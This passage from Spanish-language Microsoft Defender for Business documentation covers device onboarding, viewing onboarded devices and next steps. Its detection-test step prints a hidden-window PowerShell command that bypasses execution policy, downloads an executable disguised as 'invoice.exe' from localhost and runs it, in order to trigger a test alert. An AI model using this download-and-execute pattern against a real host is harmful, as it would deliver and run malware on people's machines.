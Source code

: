 2. Comparta este artículo con los usuarios de su organización: [Inscriba dispositivos Windows 10/11 en Intune](/mem/intune/user-help/enroll-windows-10-device).

3. Después de inscribir un dispositivo en Intune, puede agregarlo a un grupo de dispositivos en Defender para empresas. [Obtenga más información sobre los grupos de dispositivos en Defender para empresas](mdb-create-edit-device-groups.md).

### <a name="run-a-detection-test-on-a-windows-10-or-11-device"></a>Ejecución de una prueba de detección en un dispositivo Windows 10 o 11

Después de incorporar dispositivos Windows a Defender for Business, puede ejecutar una prueba de detección en el dispositivo para asegurarse de que todo funciona correctamente.

1. En el dispositivo Windows, cree una carpeta: `C:\test-MDATP-test`.

2. Abra una ventana de Símbolo de sistema como administrador.

3. En la ventana símbolo del sistema, ejecute el siguiente comando de PowerShell:

   ```powershell
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```

Una vez que se ejecuta el comando, la ventana del símbolo del sistema se cerrará automáticamente. Si se realiza correctamente, la prueba de detección se marcará como completada y aparecerá una nueva alerta en el portal de Microsoft 365 Defender ([https://security.microsoft.com](https://security.microsoft.com)) para el dispositivo recién incorporado en unos 10 minutos.

## <a name="view-a-list-of-onboarded-devices"></a>Ver una lista de dispositivos incorporados

Para ver la lista de dispositivos incorporados a Defender for Business, vaya al portal de Microsoft 365 Defender ([https://security.microsoft.com](https://security.microsoft.com)). En el panel de navegación, vaya a **Dispositivos activos** > .

## <a name="next-steps"></a>Pasos siguientes

- Si tiene otros dispositivos que incorporar, seleccione la pestaña para esos dispositivos ([Windows 10 y 11, Mac, servidores o dispositivos móviles](#what-to-do)) y siga las instrucciones de esa pestaña.
- Si ha terminado de incorporar dispositivos, vaya al [Paso 5: Configurar las directivas y las opciones de seguridad en Defender para empresas](mdb-configure-security-settings.md).
- Consulte [Introducción al uso de Defender para empresas](mdb-get-started.md).

## <a name="mac"></a>[**Mac**](#tab/mac)

## <a name="mac"></a>Mac

> [!NOTE]
> Se recomienda usar un [script local para incorporar Mac](#local-script-for-mac). Aunque puede [configurar la inscripción para Mac mediante Intune](/mem/intune/enrollment/macos-enroll), el script local es el método más sencillo para incorporar Mac a Defender for Business. 

